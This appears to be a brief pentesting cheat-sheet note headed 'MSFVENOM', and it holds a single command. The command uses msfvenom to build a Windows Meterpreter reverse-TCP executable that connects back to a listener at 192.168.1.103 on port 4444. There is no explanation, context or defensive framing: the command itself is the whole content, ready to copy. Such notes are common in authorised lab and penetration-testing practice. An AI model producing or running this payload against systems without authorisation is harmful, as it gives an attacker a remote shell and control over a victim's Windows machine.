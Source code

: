 # MSFVENOM


``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe -o /home/kali/Desktop/rs_exploitl.exe
```


